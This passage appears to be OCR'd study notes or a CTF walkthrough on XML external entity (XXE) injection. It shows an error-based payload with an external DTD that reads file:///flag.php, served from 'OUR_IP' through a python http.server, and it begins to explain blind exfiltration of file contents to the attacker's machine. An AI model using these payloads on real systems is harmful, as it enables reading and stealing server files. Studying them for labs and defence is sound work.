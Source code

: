 ### Method 2: Error-Based XXE (for silent or hidden output)
#### Test it
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY test "xxe_test">
]>
<root>
  <name></name>
  <tel>123</tel>
  <email>&test;</email>
  <message>hello</message>
</root>
```
### Payload
1. Create DTD Payload That Forces an Error
	Put this in `xxe.dtd`:
```xml
	<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExisting;/flag.php'>">
```
Start the HTTP server again:
```bash
python3 -m http.server 8000
```

2. Send XML Payload That Triggers the Error
```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```


#  Blind Data Exfiltration

### What’s the Problem?

You’re attacking a vulnerable web application with an **XXE payload**. But this time:

- You **don’t see any error messages**
- You **don’t see any file content returned**
- So it’s a **blind** vulnerability

So how can you **steal data** if nothing shows up on the page?
### The Trick: Make the Server Send the Data _to You_

You tell the vulnerable server:

> "Hey! Read a file… and then _send it to my machine in a URL_!"
